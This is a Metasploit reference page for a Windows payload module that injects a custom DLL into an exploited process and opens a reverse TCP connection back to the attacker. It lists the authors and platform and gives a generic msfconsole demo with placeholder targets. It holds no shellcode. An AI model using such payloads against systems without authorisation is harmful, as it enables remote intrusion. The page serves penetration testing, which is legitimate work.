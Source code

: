 ## Windows Inject DLL, Reverse TCP Stager (No NX or Win7)

Inject a custom DLL into the exploited process. Connect back 
to the attacker (No NX)


## Module Name
payload/windows/patchupdllinject/reverse_nonx_tcp

## Authors
* jt <jt@klake.org>
* skape
* vlad902





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/patchupdllinject/reverse_nonx_tcp
msf payload(reverse_nonx_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_nonx_tcp) > set TARGET <target-id>
msf payload(reverse_nonx_tcp) > show options
   ... show and set options ...
msf payload(reverse_nonx_tcp) > run
```
    
    